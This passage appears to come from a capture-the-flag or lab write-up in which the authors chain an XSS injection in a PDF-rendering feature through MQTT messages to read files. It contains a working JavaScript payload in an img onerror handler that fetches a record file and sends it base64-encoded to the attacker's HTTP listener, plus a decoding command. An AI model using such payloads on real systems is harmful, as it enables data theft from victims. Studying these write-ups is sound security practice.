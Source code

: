 ```html
                        <a href="?download=true&file=2024-09-02T23%3A29%3A26.645Z.json" class="download-btn">Download PDF</a>
                    </td>
                </tr>
                    </table>
        <a href="../dashboard.php" class="logout-link">&lt; Back</a>
    </div>
</body>
</html>
```

We obtained a list of records in PDF format for download. There will never be more than 10 records, and for each message sent to the `record` topic, a downloadable PDF will appear in this list.

## XSS in PDF to LFI via MQTT

We downloaded some of these files using the same technique. We continued to listen with our HTTP service and sent the following JSON to the `data` topic, inserting the PDF file download URLs.

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => {location.href='http://192.168.1.116?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/?download=true&file=2024-09-02T23%3A29%3A26.645Z.json')).arrayBuffer())));})();\" />",
  "consumedEnergy": 15
}
```

This time, we saved the base64 output in a file called `base64pdf1.txt`, for example.

```bash
cat base64pdf1.txt | base64 -d > document.pdf
```

If we view the document, we can see the XSS injection we sent.
